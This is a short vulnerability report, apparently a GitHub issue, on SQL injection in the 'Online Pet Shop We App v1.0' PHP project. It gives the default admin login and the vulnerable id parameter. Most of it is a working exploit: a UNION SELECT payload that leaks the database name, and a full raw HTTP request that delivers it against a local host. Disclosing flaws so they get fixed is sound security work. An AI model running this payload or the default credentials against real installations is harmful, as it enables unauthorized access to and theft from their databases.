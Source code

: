 # Online Pet Shop We App v1.0 by oretnom23 has SQL injection

BUG_Author: Cokutau-CH

Login account: admin/admin123 (Super Admin account)

vendors: https://www.sourcecodester.com/php/14839/online-pet-shop-we-app-using-php-and-paypal-free-source-code.html

The program is built using the xmapp-php8.1 version

Vulnerability File: /pet_shop/?p=view_product&id=

Vulnerability location: /pet_shop/?p=view_product&id=,id

dbname=pet_shop_db,length=11

[+] Payload: /pet_shop/?p=view_product&id=-e4da3b7fbbce2345d7772b0674a318d5%27%20union%20select%201,2,3,database(),5,6,7--+ // Leak place ---> id

```sql
GET /pet_shop/?p=view_product&id=-e4da3b7fbbce2345d7772b0674a318d5%27%20union%20select%201,2,3,database(),5,6,7--+ HTTP/1.1
Host: 192.168.1.19
User-Agent: Mozilla/5.0 (Windows NT 10.0; WOW64; rv:46.0) Gecko/20100101 Firefox/46.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8
Accept-Language: zh-CN,zh;q=0.8,en-US;q=0.5,en;q=0.3
Accept-Encoding: gzip, deflate
DNT: 1
Cookie: PHPSESSID=39d40bnp4n4treun1nco3uocnm
Connection: close
```

![image](https://user-images.githubusercontent.com/54017627/184599136-a659b45e-e436-4922-89af-b64e09fcd6d4.png)
